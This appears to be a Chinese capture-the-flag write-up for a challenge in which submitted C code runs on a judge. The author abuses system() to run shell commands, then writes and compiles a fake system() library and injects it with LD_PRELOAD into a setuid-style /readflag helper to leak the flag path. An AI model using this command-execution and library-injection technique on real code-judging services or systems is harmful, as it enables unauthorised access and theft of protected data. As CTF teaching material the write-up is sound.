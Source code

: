 ![[malicious_desc.png]]

Solution
---

首先~~这个题它确实可以AC~~可以用`system`来执行命令

```c
int solve() {
  system("id");
  return 123456789;
}
```

![[malicious_solution_0.png]]

其次~~AC也不给你flag~~找到一个`/readflag.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void print_flag(char* flag_path) {
  char command[256];
  strcpy(command, "echo ");
  strcat(command, flag_path);
  strcat(command, " > /dev/null");
  system(command);
  printf("I know where the flag is but I won't tell you~~~");
}

int main() { print_flag("<audited>"); }
```

想要获取`/readflag`也是不可行的，只有执行没有读写权限。

想直接找flag也行，我也不知道是哪个诶嘿～

![[malicious_solution_1.png]]

这里`readflag`的嘲讽是多余的，咱制作一个假的`system`函数，使用`LD_PRELOAD`来进行动态库插桩

```c
#include <stdio.h>
#include <stdlib.h>

int solve() {
  char* src =
      "#include<stdio.h>\n"
      "int system(char * path) {\n"
      "  FILE * f = fopen(\"./flag_path\", \"w\");\n"
      "  fprintf(f, path);\n"
      "  fclose(f);\n"
      "}\n";
  FILE* f = fopen("./hack.c", "w");
  fputs(src, f);
  fclose(f);
  system("gcc hack.c -fPIC -shared -o hack.so");
  system("LD_PRELOAD=./hack.so ../readflag");
  system("cat ./flag_path");

  return 0;
}
```

![[malicious_solution_2.png]]

然后直接读取就好啦

> Dionysus佬打出了个非预期解，快去摇他～
